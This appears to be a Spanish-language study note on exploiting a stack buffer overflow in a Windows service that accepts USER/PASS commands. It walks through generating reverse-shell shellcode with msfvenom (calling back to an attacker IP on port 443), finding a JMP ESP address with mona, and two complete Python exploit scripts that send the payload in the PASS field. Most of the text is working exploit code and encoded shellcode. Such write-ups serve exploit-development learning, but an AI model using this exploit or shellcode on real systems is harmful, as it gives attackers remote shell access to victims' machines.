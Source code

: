 #BufferOverflow #ShellCode 

Debemos de generar un *shellcode* en hexadecimal a bajo nivel que se encargue de entablar una reverse shell, este *shellcode* será introducido en el *ESP* para que sea interpretado y dos de acceso a la máquina.
Usaremos [[MSFVENOM]]
`msfvenom -p windows/shell_reverse_tcp --platform windows -a x86 LHOST=192.168.1.22 LPORT=443 -f c -e x86/shikata_ga_nai -b '\x00\x0a\x0d' EXITFUNC=thread`
	*-p* = Payload
	*--platform* = SO
	*-a* = Arquitectura
	*LHOST* = IP atacante
	*LPORT* = Puerto de escucha
	*-f* = Formato (ej: py, c, js...)
	*-e* = Encoder
	*-b* = Badchars
	*EXITFUNCT=thread* = Para no romper el proceso principal y el servicio siga estando operativo
	
Nos generara el *shellcode*
```shell
"\xbb\xfb\x85\x16\xf3\xdb\xc2\xd9\x74\x24\xf4\x5a\x2b\xc9"
"\xb1\x52\x31\x5a\x12\x03\x5a\x12\x83\x11\x79\xf4\x06\x19"
"\x6a\x7b\xe8\xe1\x6b\x1c\x60\x04\x5a\x1c\x16\x4d\xcd\xac"
"\x5c\x03\xe2\x47\x30\xb7\x71\x25\x9d\xb8\x32\x80\xfb\xf7"
"\xc3\xb9\x38\x96\x47\xc0\x6c\x78\x79\x0b\x61\x79\xbe\x76"
"\x88\x2b\x17\xfc\x3f\xdb\x1c\x48\xfc\x50\x6e\x5c\x84\x85"
"\x27\x5f\xa5\x18\x33\x06\x65\x9b\x90\x32\x2c\x83\xf5\x7f"
"\xe6\x38\xcd\xf4\xf9\xe8\x1f\xf4\x56\xd5\xaf\x07\xa6\x12"
"\x17\xf8\xdd\x6a\x6b\x85\xe5\xa9\x11\x51\x63\x29\xb1\x12"
"\xd3\x95\x43\xf6\x82\x5e\x4f\xb3\xc1\x38\x4c\x42\x05\x33"
"\x68\xcf\xa8\x93\xf8\x8b\x8e\x37\xa0\x48\xae\x6e\x0c\x3e"
"\xcf\x70\xef\x9f\x75\xfb\x02\xcb\x07\xa6\x4a\x38\x2a\x58"
"\x8b\x56\x3d\x2b\xb9\xf9\x95\xa3\xf1\x72\x30\x34\xf5\xa8"
"\x84\xaa\x08\x53\xf5\xe3\xce\x07\xa5\x9b\xe7\x27\x2e\x5b"
"\x07\xf2\xe1\x0b\xa7\xad\x41\xfb\x07\x1e\x2a\x11\x88\x41"
"\x4a\x1a\x42\xea\xe1\xe1\x05\xd5\x5e\xe8\xc3\xbd\x9c\xea"
"\xea\x86\x28\x0c\x86\xe8\x7c\x87\x3f\x90\x24\x53\xa1\x5d"
"\xf3\x1e\xe1\xd6\xf0\xdf\xac\x1e\x7c\xf3\x59\xef\xcb\xa9"
"\xcc\xf0\xe1\xc5\x93\x63\x6e\x15\xdd\x9f\x39\x42\x8a\x6e"
"\x30\x06\x26\xc8\xea\x34\xbb\x8c\xd5\xfc\x60\x6d\xdb\xfd"
"\xe5\xc9\xff\xed\x33\xd1\xbb\x59\xec\x84\x15\x37\x4a\x7f"
"\xd4\xe1\x04\x2c\xbe\x65\xd0\x1e\x01\xf3\xdd\x4a\xf7\x1b"
"\x6f\x23\x4e\x24\x40\xa3\x46\x5d\xbc\x53\xa8\xb4\x04\x73"
"\x4b\x1c\x71\x1c\xd2\xf5\x38\x41\xe5\x20\x7e\x7c\x66\xc0"
"\xff\x7b\x76\xa1\xfa\xc0\x30\x5a\x77\x58\xd5\x5c\x24\x59"
"\xfc"
```

Este código lo implementaremos en el exploit:
```python
	#!/usr/bin/python3
	
	import socket
	import sys
	
	#Variables globales
	ip_adress = <IP_Victima>
	port = <Puerto>
	offset = 4654 #Ofset que nos ha dado metasploit
	
	before_eip = b"A"*offset #Cadena de A antes de llegar al offset(valor del EIP)
	eip = b"B"*4 #Cadena con el valor del EIP, es *4 por que es la capacidad del registro EIP
	
	shellcode = (b"\xbb\xfb\x85\x16\xf3\xdb\xc2\xd9\x74\x24\xf4\x5a\x2b\xc9"
				 b"\xb1\x52\x31\x5a\x12\x03\x5a\x12\x83\x11\x79\xf4\x06\x19"
				 b"\x6a\x7b\xe8\xe1\x6b\x1c\x60\x04\x5a\x1c\x16\x4d\xcd\xac"
				 b"\x5c\x03\xe2\x47\x30\xb7\x71\x25\x9d\xb8\x32\x80\xfb\xf7"
				 b"\xc3\xb9\x38\x96\x47\xc0\x6c\x78\x79\x0b\x61\x79\xbe\x76"
				 b"\x88\x2b\x17\xfc\x3f\xdb\x1c\x48\xfc\x50\x6e\x5c\x84\x85"
				 b"\x27\x5f\xa5\x18\x33\x06\x65\x9b\x90\x32\x2c\x83\xf5\x7f"
				 b"\xe6\x38\xcd\xf4\xf9\xe8\x1f\xf4\x56\xd5\xaf\x07\xa6\x12"
				 b"\x17\xf8\xdd\x6a\x6b\x85\xe5\xa9\x11\x51\x63\x29\xb1\x12"
				 b"\xd3\x95\x43\xf6\x82\x5e\x4f\xb3\xc1\x38\x4c\x42\x05\x33"
				 b"\x68\xcf\xa8\x93\xf8\x8b\x8e\x37\xa0\x48\xae\x6e\x0c\x3e"
				 b"\xcf\x70\xef\x9f\x75\xfb\x02\xcb\x07\xa6\x4a\x38\x2a\x58"
				 b"\x8b\x56\x3d\x2b\xb9\xf9\x95\xa3\xf1\x72\x30\x34\xf5\xa8"
				 b"\x84\xaa\x08\x53\xf5\xe3\xce\x07\xa5\x9b\xe7\x27\x2e\x5b"
				 b"\x07\xf2\xe1\x0b\xa7\xad\x41\xfb\x07\x1e\x2a\x11\x88\x41"
				 b"\x4a\x1a\x42\xea\xe1\xe1\x05\xd5\x5e\xe8\xc3\xbd\x9c\xea"
				 b"\xea\x86\x28\x0c\x86\xe8\x7c\x87\x3f\x90\x24\x53\xa1\x5d"
				 b"\xf3\x1e\xe1\xd6\xf0\xdf\xac\x1e\x7c\xf3\x59\xef\xcb\xa9"
				 b"\xcc\xf0\xe1\xc5\x93\x63\x6e\x15\xdd\x9f\x39\x42\x8a\x6e"
				 b"\x30\x06\x26\xc8\xea\x34\xbb\x8c\xd5\xfc\x60\x6d\xdb\xfd"
				 b"\xe5\xc9\xff\xed\x33\xd1\xbb\x59\xec\x84\x15\x37\x4a\x7f"
				 b"\xd4\xe1\x04\x2c\xbe\x65\xd0\x1e\x01\xf3\xdd\x4a\xf7\x1b"
				 b"\x6f\x23\x4e\x24\x40\xa3\x46\x5d\xbc\x53\xa8\xb4\x04\x73"
				 b"\x4b\x1c\x71\x1c\xd2\xf5\x38\x41\xe5\x20\x7e\x7c\x66\xc0"
				 b"\xff\x7b\x76\xa1\xfa\xc0\x30\x5a\x77\x58\xd5\x5c\x24\x59"
				 b"\xfc")
	
	payload = before_eip + eip + shellcode
	
	#Exploit
	def exploit():
		
		#Crar socket
		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		
		#Conectar con el servidor
		s.connect((ip_adress, port))
		
		#Recibir la respuest(banner)
		banner = s.recv(1024)
		
		s.send(b"USER test" + b'\r\n') #Enviamos un usuario en el campo USER aleatorio en este caso TEST
		response = s.recv(1024)
		s.send(b"PASS " + payload + b'\r\n') #En el campo PASS introducira el payload que es igual a 4654 + eip
		s.close()
		
	if __name__ == '__main__':
		
		exploit()
```


Una vez detectados los *badchars* y generado el *shellcode* tendremos que buscar un *OpCode (Operaration Code)* que ejecute un *jump* a *ESP*
Para eso usaremos `!mona modules` en donde las 4 primeras columnas tienes que estar en FALSE, nos copiamos la dirección del modulo.
Ahora buscaremos la instrucción tipo *jump ESP* para ver si dentro del modulo que hemos encontrado hace esta *OpCode*
Para saber el *OpCode* usaremos `/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb` en la consola que nos da buscaremos `jmp ESP`
Nos devolverá cual es el *OpCode* en este caso `\xFF\xE4`
Ahora usaremos `!mona find -s "\xFF\xE4" -m <Nombre_modulo>`
Nos mostrara direcciones, tendremos que buscar una que no contenga los *badchars* encontrados antes.
La copiamos y lo añadirmos al valor de *EIP* en nuestro script.

```python
	#!/usr/bin/python3
	
	from struct import pack
	import socket
	import sys
	
	#Variables globales
	ip_adress = <IP_Victima>
	port = <Puerto>
	offset = 4654 #Ofset que nos ha dado metasploit
	
	before_eip = b"A"*offset #Cadena de A antes de llegar al offset(valor del EIP)
	eip = pack("<L", 0x5f4c4d13) #Cadena con el valor del EIP, en little endian que le da la vuelta y lo invierte
	
	shellcode = (b"\xbb\xfb\x85\x16\xf3\xdb\xc2\xd9\x74\x24\xf4\x5a\x2b\xc9"
				 b"\xb1\x52\x31\x5a\x12\x03\x5a\x12\x83\x11\x79\xf4\x06\x19"
				 b"\x6a\x7b\xe8\xe1\x6b\x1c\x60\x04\x5a\x1c\x16\x4d\xcd\xac"
				 b"\x5c\x03\xe2\x47\x30\xb7\x71\x25\x9d\xb8\x32\x80\xfb\xf7"
				 b"\xc3\xb9\x38\x96\x47\xc0\x6c\x78\x79\x0b\x61\x79\xbe\x76"
				 b"\x88\x2b\x17\xfc\x3f\xdb\x1c\x48\xfc\x50\x6e\x5c\x84\x85"
				 b"\x27\x5f\xa5\x18\x33\x06\x65\x9b\x90\x32\x2c\x83\xf5\x7f"
				 b"\xe6\x38\xcd\xf4\xf9\xe8\x1f\xf4\x56\xd5\xaf\x07\xa6\x12"
				 b"\x17\xf8\xdd\x6a\x6b\x85\xe5\xa9\x11\x51\x63\x29\xb1\x12"
				 b"\xd3\x95\x43\xf6\x82\x5e\x4f\xb3\xc1\x38\x4c\x42\x05\x33"
				 b"\x68\xcf\xa8\x93\xf8\x8b\x8e\x37\xa0\x48\xae\x6e\x0c\x3e"
				 b"\xcf\x70\xef\x9f\x75\xfb\x02\xcb\x07\xa6\x4a\x38\x2a\x58"
				 b"\x8b\x56\x3d\x2b\xb9\xf9\x95\xa3\xf1\x72\x30\x34\xf5\xa8"
				 b"\x84\xaa\x08\x53\xf5\xe3\xce\x07\xa5\x9b\xe7\x27\x2e\x5b"
				 b"\x07\xf2\xe1\x0b\xa7\xad\x41\xfb\x07\x1e\x2a\x11\x88\x41"
				 b"\x4a\x1a\x42\xea\xe1\xe1\x05\xd5\x5e\xe8\xc3\xbd\x9c\xea"
				 b"\xea\x86\x28\x0c\x86\xe8\x7c\x87\x3f\x90\x24\x53\xa1\x5d"
				 b"\xf3\x1e\xe1\xd6\xf0\xdf\xac\x1e\x7c\xf3\x59\xef\xcb\xa9"
				 b"\xcc\xf0\xe1\xc5\x93\x63\x6e\x15\xdd\x9f\x39\x42\x8a\x6e"
				 b"\x30\x06\x26\xc8\xea\x34\xbb\x8c\xd5\xfc\x60\x6d\xdb\xfd"
				 b"\xe5\xc9\xff\xed\x33\xd1\xbb\x59\xec\x84\x15\x37\x4a\x7f"
				 b"\xd4\xe1\x04\x2c\xbe\x65\xd0\x1e\x01\xf3\xdd\x4a\xf7\x1b"
				 b"\x6f\x23\x4e\x24\x40\xa3\x46\x5d\xbc\x53\xa8\xb4\x04\x73"
				 b"\x4b\x1c\x71\x1c\xd2\xf5\x38\x41\xe5\x20\x7e\x7c\x66\xc0"
				 b"\xff\x7b\x76\xa1\xfa\xc0\x30\x5a\x77\x58\xd5\x5c\x24\x59"
				 b"\xfc")
	
	payload = before_eip + eip + shellcode
	
	#Exploit
	def exploit():
		
		#Crar socket
		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		
		#Conectar con el servidor
		s.connect((ip_adress, port))
		
		#Recibir la respuest(banner)
		banner = s.recv(1024)
		
		s.send(b"USER test" + b'\r\n') #Enviamos un usuario en el campo USER aleatorio en este caso TEST
		response = s.recv(1024)
		s.send(b"PASS " + payload + b'\r\n') #En el campo PASS introducira el payload que es igual a 4654 + eip
		s.close()
		
	if __name__ == '__main__':
		
		exploit()
```
